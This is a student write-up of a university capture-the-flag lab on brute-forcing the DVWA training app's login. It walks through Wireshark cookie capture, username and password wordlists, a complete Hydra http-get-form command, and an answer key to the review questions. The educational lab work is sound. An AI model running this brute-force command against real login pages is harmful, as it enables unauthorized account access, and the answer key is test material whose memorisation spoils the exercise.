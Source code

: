 <p>CNT 4403 <i>Network Security and Firewalls</i></p>
<p>University Of South Florida</p>
<h1>CTF 1: Brute Force Password Attacks</h1>
<b>Tools:</b>
<ul>
    <li><a href="https://www.wireshark.org/download.html">Wireshark</a></li>
    <li><a href="https://github.com/ThurmondGuy/Homework/tree/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/Hydra">Hydra</a></li>
    <li><a href="https://www.youtube.com/watch?v=GmWQ1VIjd2U">DVWA</a> - (Deployed OVA using <a href="https://www.vmware.com/products/workstation-player.html">VMware</a>)
</ul>

<h2>Overview</h2>
<p>In this exercise, you will be introduced to the basic concepts of 
password cracking. To perform this activity, you will need to 
understand how to obtain the IP address of our DVWA host server, and 
then connect to that server. In this document that server will be 
206
identified as the SUT (System Under Test). We will first log into the 
system using the VMware console, as demonstrated below:</p>
<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image8.png">
</p>
<p>To log into the system, use the username of “<b>ctf</b>” and password of 
“<b>ctf</b>”. This will present you with the login prompt of “ctf@usf-ctf-server:” (note the image above does not reflect the server’s name, but
the default name). It is from here that you can issue the “ifconfig” 
command. Note that the ctf account is a non-privileged account, so you 
will need to use “sudo” to invoke any system commands.</p>

<p>What we want is "ens33 inet addr". This is our "target server". So our target server here is <b>192.168.131.128</b>.</p>

<h2>DVWA</h2>
<p>We are going to need information for our Hydra attack later on:</p>
<ul>
    <li>target server</li>
    <li>cookie</li>
    <li>failure message</li>
</ul>
<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image7.png">
</p>
Login to DVWA, for this page, use the username of <b>"admin"</b>, and the password of <b>"password"</b>.

After logging in, set the Security Level of the web interface to "Low" by navigating to the "DVWA Security" tab on the left-hand panel.
<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image2.png">
</p>
Hit submit to confirm changes.
<h2>Wireshark</h2>
<p>Use Wireshark and watch the traffic that is generated on the 
network, you can then filter out unwanted traffic to only give you the 
information you will need to exploit the system. To perform this 
exercise, start your Wireshark tracing for all traffic on the VMnet1 or 
VMnet8 network, or whatever network interface your IP address for 
your DVWA server IP address network is assigned to. Go ahead and start a wireshark capture.</p>

<p>Now go to the "Brute Force" tab on the left-hand panel and enter an invalid combination. In this case we used "Bill"/"Bill".</p>
<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image6.png">
</p>
<p>Notice the red highlighted text: "Username and/or passowrd incorrect." This is our <b>failure message</b>. Stop the wireshark capture.</p>

<p>Filter the web results from Wireshark, find the "GET" operation on the URL of <b>/dvwa/vulnerabilities/brute</b>.</p>
<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image4.png">
</p>

<p>Analyze the "GET" packet to find the <b>URL</b> and <b>cookie</b>.</p>
<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image9.png">
</p>


```
URL: /dvwa/vulnerabilities/brute/?username=bill&password=bil&Login=Login HTTP/1.1
Cookie: security=low; 
PHPSESSID=n232a3gba8kkd47tai36be0o81
```

<p>We now have enough information for our Hydra attack.

<h2>Hydra Attack</h2>

<b>Target Server:</b>

```
192.168.131.128
```

<b>URL:</b>

```
/dvwa/vulnerabilities/brute/?username=bill&password=bil&Login=Login HTTP/1.1
```

<b>Cookie:</b>

```
security=low; PHPSESSID=n232a3gba8kkd47tai36be0o81
```

<b>Failure Message:</b>

```
Username and/or passowrd incorrect.
```

<p>Create a file named <a href="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/Hydra/username.txt">username.txt</a> that contains the following names: alice, bill, bob, ctf, joe, admin, administrator, and root; Each name on a separate single line of the file.</p>

<p>Create a file named <a href="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/Hydra/password.txt">password.txt</a> that contains the following passwords: admin, 123456, qwerty, ctf, notpasswrd, password, p@ssw0rd, 219ctivity, root; Each password on a separate single line of the file.</p>

Both files should be in the same <a href="https://github.com/ThurmondGuy/Homework/tree/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/Hydra">directory</a> as Hydra.

This is the appropriate command for this exercise:

```
hydra -L username.txt -P password.txt 192.168.131.128 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=n232a3gba8kkd47tai36be0o81"
```

If you want to know more about the Hydra syntax, I suggest to check <a href="https://www.freecodecamp.org/news/how-to-use-hydra-pentesting-tutorial/">this</a>.

<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image5.png">
</p>

Using the information we got from Hydra, login with the user <b>"admin"</b> and the password <b>"password"</b>.

The Brute Force page should now show this:

<p align="center">
<img src="https://github.com/ThurmondGuy/Homework/blob/main/CNT4403/CTF-1%20Brute%20Force%20Password%20Attacks/images/image3.png">
</p>

With the Success Message: "Welcome to the password protected area admin".

<h2>Review</h2>
<details>
<summary>1. Which password cracking tools where used in this exercise to determine the password for root?</summary>
<b>Hydra</b>
</details>
<details>
<summary>2. What are the parameters being passed in the GET request, list only the paremeter names in a comma separated list, for example: x, y</summary><b>username, password, Login</b></details>
<details>
<summary>3. Which header tag in the HTTP request packet contains the session ID?</summary><b>cookie</b></details>
<details><summary>4. What is the name of the session ID used by DVWA (just supply the name, not the value)</summary><b>PHPSESSID</b></details>
<details><summary>5. When using Hydra, to supply a file with a list of usernames, you would use which switch?</summary><b>-L</b></details>
<details><summary>6. When using Hydra, to supply a file with a list of passwords, you would use which switch?</summary><b>-P</b></details>
<details><summary>7. When using Hydra, which protocol module is used in this exercise?</summary><b>http-get-form</b></details>
<details><summary>8. When using Hydra and specifying an HTTP "GET" request, what token is used to specify the username?</summary><b>^USER^</b></details>
<details><summary>9. When using Hydra and specifying an HTTP "GET" request, what token is used to specify the password?</summary><b>^PASS^</b></details>
<details><summary>10. When using Hydra and specifying an HTTP "GET" request, what switch is used to specify optional HTTP header tags?</summary><b>:H=</b></details>
<details><summary>11. The username for the password cracking attempt using Hydra is?</summary><b>admin</b></details>
<details><summary>12. The password results of the cracking attempt using Hydra is?</summary><b>password</b></details>
